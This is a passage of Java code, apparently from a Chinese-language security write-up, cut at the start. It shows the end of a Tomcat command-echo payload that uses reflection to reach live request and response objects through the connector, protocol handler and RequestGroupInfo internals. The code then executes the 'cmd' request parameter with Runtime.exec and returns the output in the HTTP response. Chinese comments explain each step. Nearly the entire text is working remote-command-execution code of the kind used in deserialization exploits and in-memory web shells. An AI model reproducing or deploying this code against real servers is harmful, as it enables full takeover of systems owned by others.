 ```java
            connectorsField.setAccessible(true);
            Connector[] connectors = (Connector[]) connectorsField.get(standardService);
            Connector connector = connectors[0];
            // 获取ConnectionHandler
            ProtocolHandler protocolHandler = connector.getProtocolHandler();
            Field handler = Class.forName("org.apache.coyote.AbstractProtocol").getDeclaredField("handler");
            handler.setAccessible(true);
            org.apache.tomcat.util.net.AbstractEndpoint.Handler abstractEndpointHandler = (org.apache.tomcat.util.net.AbstractEndpoint.Handler)handler.get(protocolHandler);
            // 获取RequestGroupInfo
            Field globalField = Class.forName("org.apache.coyote.AbstractProtocol$ConnectionHandler").getDeclaredField("global");
            globalField.setAccessible(true);
            RequestGroupInfo requestGroupInfo = (RequestGroupInfo)globalField.get(abstractEndpointHandler);
            // 获取process
            Field processorsField = Class.forName("org.apache.coyote.RequestGroupInfo").getDeclaredField("processors");
            processorsField.setAccessible(true);
            List<RequestInfo> requestInfoList = (List<RequestInfo>) processorsField.get(requestGroupInfo);
            // 获取request和response
            Field requestField = Class.forName("org.apache.coyote.RequestInfo").getDeclaredField("req");
            requestField.setAccessible(true);
            for(RequestInfo requestInfo: requestInfoList){
                org.apache.coyote.Request request = (org.apache.coyote.Request) requestField.get(requestInfo);
                //通过org.apache.coyote.Request的Notes属性获取继承HttpServletRequest的org.apache.catalina.connector.Request
                org.apache.catalina.connector.Request http_request = (org.apache.catalina.connector.Request) request.getNote(1);
                org.apache.catalina.connector.Response http_response = http_request.getResponse();

                InputStream inputStream = Runtime.getRuntime().exec(http_request.getParameter("cmd")).getInputStream();
                ByteArrayOutputStream bao = new ByteArrayOutputStream();
                byte[] bytes = new byte[1024];
                int a = -1;
                while((a = inputStream.read(bytes)) !=-1){
                    bao.write(bytes, 0, a);
                }
                http_response.getWriter().write(new String(bao.toByteArray()));
                http_response.getWriter().flush();
            }
        }catch (Exception e){

        }
    }
}
```
